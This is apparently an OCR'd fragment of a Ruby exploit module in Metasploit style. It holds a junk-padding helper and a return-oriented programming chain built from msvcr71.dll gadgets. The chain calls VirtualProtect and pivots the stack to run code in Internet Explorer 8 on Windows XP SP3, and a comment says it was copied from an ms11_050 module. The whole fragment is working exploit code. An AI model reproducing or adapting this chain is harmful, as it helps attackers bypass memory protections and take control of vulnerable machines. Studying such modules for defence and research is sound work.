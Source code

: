 ```ruby

	def junk(n=1)
		tmp = []
		value = rand_text(4).unpack("L")[0].to_i
		n.times { tmp << value }
		return tmp
	end

	# ROP chain copied from ms11_050_mshtml_cobjectelement.rb (generated by mona)
	# Added a little of roping to adjust the stack pivoting for this case
	# Specific for IE8 XP SP3 case at this time
	def create_rop_chain(my_target)

		rop_gadgets =
		[
			0x7c347f98,  # RETN (ROP NOP) [msvcr71.dll]
			my_target['StackPivot'],  # stackpivot
			junk, # padding
			0x7c376402,  # POP EBP # RETN [msvcr71.dll]
			0x7c376402,  # skip 4 bytes [msvcr71.dll]
			0x7c347f97,  # POP EAX # RETN [msvcr71.dll]
			0xfffff800,  # Value to negate, will become 0x00000201 (dwSize)
			0x7c351e05,  # NEG EAX # RETN [msvcr71.dll]
			0x7c354901,  # POP EBX # RETN [msvcr71.dll]
			0xffffffff,
			0x7c345255,  # INC EBX # FPATAN # RETN [msvcr71.dll]
			0x7c352174,  # ADD EBX,EAX # XOR EAX,EAX # INC EAX # RETN [msvcr71.dll]
			0x7c344f87,  # POP EDX # RETN [msvcr71.dll]
			0xffffffc0,  # Value to negate, will become 0x00000040
			0x7c351eb1,  # NEG EDX # RETN [msvcr71.dll]
			0x7c34d201,  # POP ECX # RETN [msvcr71.dll]
			0x7c38b001,  # &Writable location [msvcr71.dll]
			0x7c34b8d7,  # POP EDI # RETN [msvcr71.dll]
			0x7c347f98,  # RETN (ROP NOP) [msvcr71.dll]
			0x7c364802,  # POP ESI # RETN [msvcr71.dll]
			0x7c3415a2,  # JMP [EAX] [msvcr71.dll]
			0x7c347f97,  # POP EAX # RETN [msvcr71.dll]
			0x7c37a151,  # ptr to &VirtualProtect() - 0x0EF [IAT msvcr71.dll]
			0x7c378c81,  # PUSHAD # ADD AL,0EF # RETN [msvcr71.dll]
			0x7c345c30,  # ptr to 'push esp #  ret ' [msvcr71.dll]
		].flatten.pack('V*')

		return rop_gadgets
	end


end
```

